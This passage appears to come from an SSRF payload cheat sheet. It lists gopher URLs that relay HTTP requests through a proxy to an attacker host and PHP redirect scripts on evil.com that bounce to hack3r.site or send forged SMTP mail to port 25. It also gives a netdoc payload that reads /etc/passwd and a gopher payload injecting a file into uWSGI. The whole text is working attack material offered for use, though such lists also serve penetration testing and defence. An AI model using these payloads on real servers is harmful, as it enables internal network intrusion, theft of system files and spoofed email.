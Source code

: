 #### Gopher HTTP

```powershell
gopher://<proxyserver>:8080/_GET http://<attacker:80>/x HTTP/1.1%0A%0A
gopher://<proxyserver>:8080/_POST%20http://<attacker>:80/x%20HTTP/1.1%0ACookie:%20eatme%0A%0AI+am+a+post+body
```

#### Gopher SMTP - Back connect to 1337

```php
Content of evil.com/redirect.php:
<?php
header("Location: gopher://hack3r.site:1337/_SSRF%0ATest!");
?>

Now query it.
https://example.com/?q=http://evil.com/redirect.php.
```

#### Gopher SMTP - send a mail

```php
Content of evil.com/redirect.php:
<?php
        $commands = array(
                'HELO victim.com',
                'MAIL FROM: <admin@victim.com>',
                'RCPT To: <sxcurity@oou.us>',
                'DATA',
                'Subject: @sxcurity!',
                'Corben was here, woot woot!',
                '.'
        );

        $payload = implode('%0A', $commands);

        header('Location: gopher://0:25/_'.$payload);
?>
```

### Netdoc

Wrapper for Java when your payloads struggle with "\n" and "\r" characters.

```powershell
ssrf.php?url=netdoc:///etc/passwd
``` 

## SSRF exploiting WSGI

Exploit using the Gopher protocol, full exploit script available at https://github.com/wofeiwo/webcgi-exploits/blob/master/python/uwsgi_exp.py.

```powershell
gopher://localhost:8000/_%00%1A%00%00%0A%00UWSGI_FILE%0C%00/tmp/test.py
```
